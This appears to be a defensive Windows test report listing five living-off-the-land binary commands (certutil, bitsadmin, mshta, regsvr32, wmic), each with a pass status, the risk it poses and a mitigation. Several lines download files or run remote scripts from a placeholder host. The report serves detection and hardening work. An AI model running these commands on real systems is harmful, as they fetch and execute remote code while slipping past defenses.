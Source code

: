 ﻿# LOLBAS Test Report

| Command | Status | Why it's dangerous | How to mitigate |
|--------|--------|--------------------|-----------------|
| certutil -urlcache -split -f https://example.com/file.txt file.txt | âœ… Passed | Can download malicious files over HTTP | Block certutil.exe for standard users |
| bitsadmin /transfer myJob https://example.com/file.txt file.txt | âœ… Passed | Transfers files silently, often overlooked | Block or audit bitsadmin |
| mshta https://example.com/malware.hta | âœ… Passed | Executes remote scripts, can bypass defenses | Block mshta.exe with AppLocker |
| regsvr32 /s /n /u /i:https://example.com/file.sct scrobj.dll | âœ… Passed | Runs remote scriptlets (SCT), no disk footprint | Block regsvr32 or restrict internet access |
| wmic process call create 'calc.exe' | âœ… Passed | Can execute any command or script | Limit wmic usage with group policies |

